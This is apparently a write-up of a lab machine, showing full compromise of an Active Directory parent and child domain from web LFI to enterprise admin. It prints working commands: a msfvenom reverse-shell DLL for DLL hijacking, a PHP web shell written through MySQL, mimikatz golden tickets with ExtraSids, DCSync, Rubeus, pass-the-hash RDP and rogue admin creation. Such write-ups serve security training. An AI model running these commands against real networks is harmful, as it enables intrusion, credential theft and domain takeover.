 # Enumeration
1.
```
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-09 14:07:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: trusted.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: trusted.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=trusteddc.trusted.vl
| Not valid before: 2024-04-08T14:01:07
|_Not valid after:  2024-10-08T14:01:07
|_ssl-date: 2024-04-09T14:08:09+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TRUSTED
|   NetBIOS_Domain_Name: TRUSTED
|   NetBIOS_Computer_Name: TRUSTEDDC
|   DNS_Domain_Name: trusted.vl
|   DNS_Computer_Name: trusteddc.trusted.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-09T14:08:01+00:00
Service Info: Host: TRUSTEDDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

2.
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/8.1.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.10.187.70/dashboard/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/8.1.6
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-09 14:08:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: trusted.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/8.1.6)
| http-title: Welcome to XAMPP
|_Requested resource was https://10.10.187.70/dashboard/
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/8.1.6
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: trusted.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3306/tcp open  mysql         MySQL 5.5.5-10.4.24-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolOld, Speaks41ProtocolNew, ODBCClient, InteractiveClient, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, LongColumnFlag, FoundRows, SupportsTransactions, SupportsCompression, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: zu\KEXi*0U9^LABf\{uY
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-04-09T14:08:29+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LAB
|   NetBIOS_Domain_Name: LAB
|   NetBIOS_Computer_Name: LABDC
|   DNS_Domain_Name: lab.trusted.vl
|   DNS_Computer_Name: labdc.lab.trusted.vl
|   DNS_Tree_Name: trusted.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-09T14:08:21+00:00
| ssl-cert: Subject: commonName=labdc.lab.trusted.vl
| Not valid before: 2024-04-08T14:01:07
|_Not valid after:  2024-10-08T14:01:07
Service Info: Host: LABDC; OS: Windows; CPE: cpe:/o:microsoft:windows

```

There is an apache website on trusted.vl:
![](attachment/80754b8f832f586189d4671ba63f4eb9.png)

Using gobuster to fuzz directories:
![](attachment/5f2ffad7c9b05527e6f2a92a10392733.png)
We discover a webpage at /dev:

![](attachment/352daacf9022d00bb3d90bee90ae4bf1.png)
Now testing for LFI:
![](attachment/3d45dd4a95aa90886ac9317cc2e4333a.png)
It works.

Checking index.html using php filters we get a base64. 
![](attachment/d223a8c9ffc8eb92c8128b22f7fbd482.png)
![](attachment/9d69d2b68393244a644a7238f81c3205.png)
Running gobuster for php extension we get a file called db.php.

Now using LFI:
![](attachment/2f569d04a10de32f0ea9a1a5ccf70de4.png)

Now logging in to mysql:
`mysql -u root -pSuperSecureMySQLPassw0rd1337. -h 10.10.225.134`

And checking the database `news`:
`select * from users;`
![](attachment/9f7923f16ee0e2e2a813f400771cd6ad.png)

The password is MD5 hash so cracking it:
![](attachment/2ff18744342a692c941c71acb29f43bb.png)![](attachment/135c9fa5ed5b415f61c50498dd748934.png)

Trying to use bloodhound.py it doesnt work and gives an error:
![](attachment/46ee2354346f4c1f466a4b8bf6c78be1.png)
Using dnschef:
`dnschef --fakeip 10.10.225.134`

Now using bloodhound.py:
`bloodhound.py -u 'rsmith' -p 'IHateEric2' -d lab.trusted.vl -dc labdc.lab.trusted.vl -c all -ns 127.0.0.1`
![](attachment/591160f47e9a8e693e7701485b001825.png)
Now we can change the password:
`net rpc password "EWALTERS" "aditya123@" -U "lab.trusted.vl"/"rsmith"%"IHateEric2" -S "labdc.lab.trusted.vl"`

Now we can use evil-winrm:
`evil-winrm -i labdc.lab.trusted.vl -u ewalters -p aditya123@`

Now checking the C drive there is an exe:
![](attachment/b8fe93bae5fcb8639fdf207898682204.png)

Now transfering to windows vm and using prcomon:
![](attachment/7a0dbcb2129b4062c374240951a9bc1e.png)
It is vulnerable to dll hijacking 

And the exe is 32 bit:![](attachment/e8533b7f108a5105afebf624f3ad8df7.png)

So creating a payload for missing dll:
`msfvenom -p windows/shell_reverse_tcp -f dll LHOST=10.8.1.208 LPORT=9005 > KasperskyRemovalToolENU.dll`
and uploading it in the respective place:

We get a shell
![](attachment/37580de589e1889efbabb29359c88a01.png)
## Alternate privesc
Using mysql upload a webshell to the web directory which we have access to where it is with phpinfo in the home page:
```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/dev/shell.php';
```
Then access the page:
![](attachment/1295e841c3a77380391084c6b0319559.png)
Now we can upload rcat.exe and get a reverse shell back:
![](attachment/58bb3ac60c3c3ee1dd39f9278f6a1eff.png)

# Lateral Movement
From *adpeas* we know there is a parent child relation so:
Using mimikatz to dump hashes:
```
lsadump::trust /patch
```
![](attachment/2f55d99b4f31250b353244e615bcaf32.png)
Now using
```
Kerberos::golden /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866-512 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /rc4:978eb8e52b460ee2d5a4979859214b10 /service:krbtgt /target:trusted.vl /ticket: C:\temp\trust.kirbi
```
Then using the ticket:
```
Rubeus.exe asktgs /ticket:C:\temp\ticket.kirbi /service:cifs/trusteddc.trusted.vl /dc:trusteddc.trusted.vl /ptt
```
Now we have tgs:
`export KRB5CCNAME=administrator.ccache`
`psexec.py administrator@trusteddc.trusted.vl -k -no-pass`

Now we can create a user and add to "Domain Admins" and "Enterprise Admins"
```
net user aditya P@ssw0rd /add /domain
```
```
net group "Enterprise Admins" /add aditya
net group "Domain Admins" /add aditya
```
Then enable logging in rdp with pth:
```
nxc smb trusted.vl -u Administrator -H 15db914be1e6a896e7692f608a9d72ef -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```
Now we can rdp to the machine.
```
xfreerdp /u:administrator /pth:'15db914be1e6a896e7692f608a9d72ef' /cert:ignore /v:trusted.vl
```
To get administrator hash use `-ntds`  in nxc
Then get the hash:
![](attachment/02c28782f30c5eb26924b1c415f6f28a.png)
## [[ExtraSids]] Method
With mimikatz
```
kerberos::golden /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```
```
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
```
![](attachment/39316dbee92dbc26bef0a30023a0725d.png)
Now to enable rdp:
```
nxc smb trusted.vl -u Administrator -H 15db914be1e6a896e7692f608a9d72ef -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```
Then to login:
```
xfreerdp /u:administrator /pth:'15db914be1e6a896e7692f608a9d72ef' /cert:ignore /v:trusted.vl
```